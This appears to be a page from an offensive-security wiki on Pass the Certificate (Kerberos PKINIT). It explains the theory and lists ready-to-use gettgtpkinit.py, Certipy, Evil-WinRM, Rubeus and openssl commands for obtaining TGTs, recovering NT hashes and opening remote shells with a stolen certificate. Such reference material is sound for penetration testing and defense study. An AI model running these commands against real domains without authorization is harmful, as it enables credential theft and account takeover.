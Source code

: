 # Pass the Certificate - PKINIT

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](broken-reference)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](broken-reference) and [UnPAC-the-hash attacks](unpac-the-hash.md).

{% hint style="info" %}
Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.

The "certificate + private key" pair is usually used in the following manner

* PEM certificate + PEM private key
* PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
{% endhint %}

## Practice

{% hint style="danger" %}
If you encounter the error**`KDC_ERR_PADATA_TYPE_NOSUPP`**when attempting to pass the certificate through PKINIT, this may be an indication that the targeted KDC do not have certificates with the necessary EKUs (Extended Key Usages). Specifically, for a KDC to support PKINIT, its certificates must include the **`Smart Card Logon`** EKU.\
\
**However, you can try to** [**pass the certificate using Schannel**](../schannel/pass-the-certificate-schannel.md)**.**
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
#### PKINITtools

From UNIX-like systems, [Dirk-jan](https://twitter.com/\_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.

```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

#### Certipy

When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the obtained TGT.

```bash
certipy auth -pfx <PATH_TO_PFX_CERT> -dc-ip <DC_IP> -username <user> -domain <DOMAIN_FQDN>
```

{% hint style="info" %}
Notes that Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.

```bash
certipy cert -export -pfx <PATH_TO_PFX_CERT> -password <CERT_PASSWORD> -out <unprotected.pfx>
```
{% endhint %}

#### Evil-WinRm

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) uses the [WinRM](../../../redteam/pivoting/winrm.md) protocol based on [Windows Management Instrumentation (WMI)](../../../redteam/pivoting/remote-wmi.md) to give us an interactive shell on a Windows host. Winrm Supports PKINIT, so we can authenticate with a certificate.

```bash
evil-winrm -i <TARGET_IP> -c <PATH_TO_PEM_CERT> -k <PATH_TO_PEM_KEY> -S -r <DOMAIN_REALM>
```

Evil WinRM doesn't directly support PFX files and need a PEM certificate and private key. The following commands can be used to convert a PFX file in PEM formats

```bash
# Exctract PEM certificate
openssl pkcs12 -in <PATH_TO_PFX_CERT> -clcerts -nokeys -out <PATH_TO_NEW_PEM_CERT>
# Extrcat PEM key
openssl pkcs12 -in <PATH_TO_PFX_CERT> -nocerts -out <ENC_PEM_KEY>
openssl rsa -in <ENC_PEM_KEY> -out <FINAL_PEM_KEY>
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```bash
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

{% hint style="info" %}
PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

```bash
openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```
{% endhint %}

{% hint style="info" %}
Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.

```bash
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```
{% endhint %}

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](broken-reference)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.
{% endtab %}
{% endtabs %}
